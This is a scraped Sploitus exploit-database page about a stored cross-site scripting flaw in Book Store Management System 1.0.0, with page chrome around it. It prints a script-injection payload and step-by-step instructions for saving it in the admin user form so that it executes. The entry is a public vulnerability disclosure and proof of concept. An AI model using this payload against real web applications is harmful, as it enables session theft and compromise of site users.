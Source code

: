 ```yaml
---
title: Book Store Management System 1.0.0 - Stored Cross-Site Scripting Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38368&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-30
fetch_date: 2025-10-04T11:06:07.900598
---
```


# Book Store Management System 1.0.0 - Stored Cross-Site Scripting Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Book Store Management System 1.0.0 - Stored Cross-Site Scripting Vulnerability

2023-03-29 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38368
# Exploit Title: Book Store Management System 1.0.0 - Stored Cross-Site Scripting (XSS)
# Exploit Author: Rajeshwar Singh
# Vendor Homepage: https://www.sourcecodester.com/
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip
# Tested on: Windows/XAMPP
###########################################################################

Payload use = "><script>alert("XSS")</script>

1. Visit URL http://localhost/bsms_ci/
2. login with admin Credentials
3. navigate to user Management
4. Click on "Add New System User"
5. Add  payload in "Name" input field
6. Click save.
7. Visit http://localhost/bsms_ci/index.php/user
8. XSS payload execute.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)